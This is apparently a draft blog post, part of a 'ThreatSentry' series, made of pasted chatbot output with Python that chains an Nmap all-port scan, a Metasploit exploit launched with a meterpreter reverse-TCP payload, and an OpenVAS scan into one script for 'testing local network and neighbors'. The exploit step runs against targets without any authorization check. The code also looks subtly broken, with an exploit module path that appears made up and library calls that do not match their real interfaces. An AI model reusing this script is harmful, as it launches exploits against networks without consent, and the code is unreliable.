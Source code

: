 ```yaml
---
title: "An advanced threat modeling bot (ThreatSentry) p3"
author: "c4r4nch0"
date: "2023-06-15"
draft: True
searchHidden: True
tags: ["threat modeling", "infosec", "coding"]
ShowToc: false
ShowBreadCrumbs: false
# cover:
#     image: "https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSQud1wlz3Fl6brRiyQMKkg8XMhI2BE9J7SazqbG4DBOcbkVorYi34k1Y6axGErJj0L9LU&usqp=CAU"
#     # can also paste direct link from external site
#     # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
#     alt: "Bug Bounty Bootcamp"
#     caption: "Bug Bounty Bootcamp"
#     relative: false # To use relative path for cover image, used in hugo Page-bundles    
---
```

### Part 3: Integration with Penetration Testing Tools

Certainly! Here's an updated version using open-source tools for integration with a Flask application:

1. Nmap for Network Scanning:

   - Nmap is an open-source network scanning tool that helps identify hosts, open ports, and services running on a network.

   - You can use the python-nmap library, which provides a Python interface for Nmap, to integrate it into your Flask application.

   - Here's an example code snippet to perform a basic network scan using Nmap:

   ```python
   import nmap

   def perform_network_scan(target_ip):
       scanner = nmap.PortScanner()
       scanner.scan(target_ip, arguments='-p-')  # Scan all ports

       open_ports = []
       for host in scanner.all_hosts():
           for proto in scanner[host].all_protocols():
               for port in scanner[host][proto]:
                   if scanner[host][proto][port]['state'] == 'open':
                       open_ports.append(port)

       return open_ports
   ```

2. Metasploit Framework for Exploitation:

   - Metasploit Framework is an open-source penetration testing framework that provides a collection of exploit modules.

   - You can utilize the Metasploit Framework's msfrpc library to integrate it with your Flask application.

   - Here's an example code snippet to demonstrate executing a Metasploit module using the msfrpc library:

   ```python
   from msfrpc import MsfRpcClient

   def exploit_target(target_ip, target_port):
       client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
       exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

       exploit_module['RHOSTS'] = target_ip
       exploit_module['RPORT'] = target_port

       session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

       return session
   ```

3. OpenVAS for Vulnerability Scanning:

   - OpenVAS is an open-source vulnerability scanning tool that can identify security weaknesses in target systems.

   - You can use the python-gvm library, which provides a Python interface for OpenVAS/GVM, to integrate it into your Flask application.

   - Here's an example code snippet to initiate a vulnerability scan using OpenVAS:

   ```python
   from gvm.connections import TLSConnection
   from gvm.protocols.gmp import Gmp
   from gvm.transforms import EtreeTransform

   def initiate_vulnerability_scan(target_ip):
       connection = TLSConnection(hostname='openvas_server', port=9390)
       transform = EtreeTransform()

       with Gmp(connection, transform=transform) as gmp:
           gmp.authenticate('username', 'password')
           scan_id = gmp.create_task(target=target_ip)

           # Start the scan
           gmp.start_task(scan_id)

           return scan_id
   ```

Please note that these code snippets are simplified examples, and you would need to install the respective libraries (`python-nmap`, `msfrpc`, `python-gvm`) to use them in your Flask application. Additionally, ensure you have the necessary credentials and proper access to use these open-source tools within your application.

Now, for a practical example, lets do a script un python for testing local network and neighbors:

  ```python
    import nmap
    from msfrpc import MsfRpcClient
    from gvm.connections import TLSConnection
    from gvm.protocols.gmp import Gmp
    from gvm.transforms import EtreeTransform

    # Perform network scan using Nmap
    def perform_network_scan(target_ip):
        scanner = nmap.PortScanner()
        scanner.scan(target_ip, arguments='-p-')  # Scan all ports

        open_ports = []
        for host in scanner.all_hosts():
            for proto in scanner[host].all_protocols():
                for port in scanner[host][proto]:
                    if scanner[host][proto][port]['state'] == 'open':
                        open_ports.append(port)

        return open_ports

    # Exploit target using Metasploit Framework
    def exploit_target(target_ip, target_port):
        client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
        exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

        exploit_module['RHOSTS'] = target_ip
        exploit_module['RPORT'] = target_port

        session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

        return session

    # Initiate vulnerability scan using OpenVAS
    def initiate_vulnerability_scan(target_ip):
        connection = TLSConnection(hostname='openvas_server', port=9390)
        transform = EtreeTransform()

        with Gmp(connection, transform=transform) as gmp:
            gmp.authenticate('username', 'password')
            scan_id = gmp.create_task(target=target_ip)

            # Start the scan
            gmp.start_task(scan_id)

            return scan_id

    # Execute the scan, detect, and vulnerability check
    def execute_network_security_check(target_ip):
        # Network scan using Nmap
        open_ports = perform_network_scan(target_ip)

        # Exploit target using Metasploit Framework
        session = exploit_target(target_ip, 80)  # Adjust the target port as needed

        # Initiate vulnerability scan using OpenVAS
        scan_id = initiate_vulnerability_scan(target_ip)

        # Save the outputs to separate TXT files
        with open('network_scan_output.txt', 'w') as f:
            f.write('Open Ports:\n')
            for port in open_ports:
                f.write(f'{port}\n')

        with open('exploit_output.txt', 'w') as f:
            f.write('Exploit Session:\n')
            f.write(f'{session}\n')

        with open('vulnerability_scan_output.txt', 'w') as f:
            f.write('Scan ID:\n')
            f.write(f'{scan_id}\n')

        print('Network security check completed. Results saved to TXT files.')

    # Execute the script with your localhost IP as the target
    execute_network_security_check('localhost')
  ```
